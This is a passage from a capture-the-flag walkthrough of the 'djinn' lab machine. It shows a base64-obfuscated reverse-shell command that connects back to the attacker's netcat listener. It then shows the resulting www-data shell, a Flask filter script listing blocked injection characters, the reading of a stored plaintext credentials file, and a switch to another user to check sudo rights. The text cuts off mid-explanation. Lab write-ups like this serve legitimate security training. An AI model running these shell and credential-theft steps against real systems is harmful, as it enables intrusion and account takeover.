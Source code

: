 ```Shell
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMTkvMTIzNCAwPiYx | base64 -d | bash
```
And is successful:
```Shell
nc -lvvnp 1234                                                        
listening on [any] 1234 ...
connect to [10.0.2.19] from (UNKNOWN) [10.0.2.22] 49226
bash: cannot set terminal process group (700): Inappropriate ioctl for device
bash: no job control in this shell
www-data@djinn:/opt/80$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@djinn:/opt/80$ whoami
whoami
www-data
```
## Privilege Escalation

There is a python script that is the filter:

```Python
www-data@djinn:/opt/80$ cat app.py
import subprocess

from flask import Flask, redirect, render_template, request, url_for

app = Flask(__name__)
app.secret_key = "key"

CREDS = "/home/nitish/.dev/creds.txt"

RCE = ["/", ".", "?", "*", "^", "$", "eval", ";"]
...
...
...
...
if __name__ == "__main__":
    app.run(host='0.0.0.0', debug=True)
```
You can see a _creds.txt_ in _/home/nitish/.dev_, let's read the file:

```Shell
www-data@djinn:/opt/80$ cat /home/nitish/.dev/creds.txt
nitish:p4ssw0rdStr3r0n9
```
We have new credentiales for nitish user. The login is successful and new information for privilege escalation comes to light.

```Shell
www-data@djinn:/opt/80$ su nitish
Password: 
nitish@djinn:/opt/80$ sudo -l
Matching Defaults entries for nitish on djinn:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nitish may run the following commands on djinn:
    (sam) NOPASSWD: /usr/bin/genie

```
We can execute genie with the user sam. After several attempts I realize that there is a parameter that with _--help_ does not appear, but with the manual it does:
